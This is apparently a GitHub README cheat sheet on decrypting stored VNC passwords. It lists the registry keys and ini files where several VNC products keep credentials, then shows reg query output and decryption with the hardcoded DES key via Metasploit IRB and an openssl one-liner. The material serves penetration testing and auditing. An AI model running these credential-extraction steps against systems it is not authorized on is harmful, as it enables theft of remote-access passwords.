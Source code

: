 # PasswordDecrypts
Handy Stored Password Decryption Techniques

## VNC

VNC uses a hardcoded DES key to store credentials.  The same key is used across multiple product lines.

*RealVNC*  
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver  
Value: Password  
 
*TightVNC*  
HKEY_CURRENT_USER\Software\TightVNC\Server  
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini  
vnc_viewer.ini  
Value: Password or PasswordViewOnly  
  
*TigerVNC*  
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4  
Value: Password  
  
*UltraVNC*  
C:\Program Files\UltraVNC\ultravnc.ini  
Value: passwd or passwd2  

### Test Case
I downloaded TightVNC version 2.8.11 and found my password was stored here: HKLM\SOFTWARE\TightVNC\Server\ControlPassword so I used reg query to extract the encrypted password:
  
```
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---

```
With the encypted VNC password: 
D7A514D8C556AADE  

#### Metasploit Framework and the IRB (ruby shell)
I was able decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:  
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"   
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey   
  
```BASH
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

#### Native Linux Tools
From https://github.com/billchaison/VNCDecrypt via https://miloserdov.org/?p=4854#65
```BASH
echo -n d7a514d8c556aade | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```
Outputs
```BASH
00000000  53 65 63 75 72 65 21 00                           |Secure!.|
00000008
```
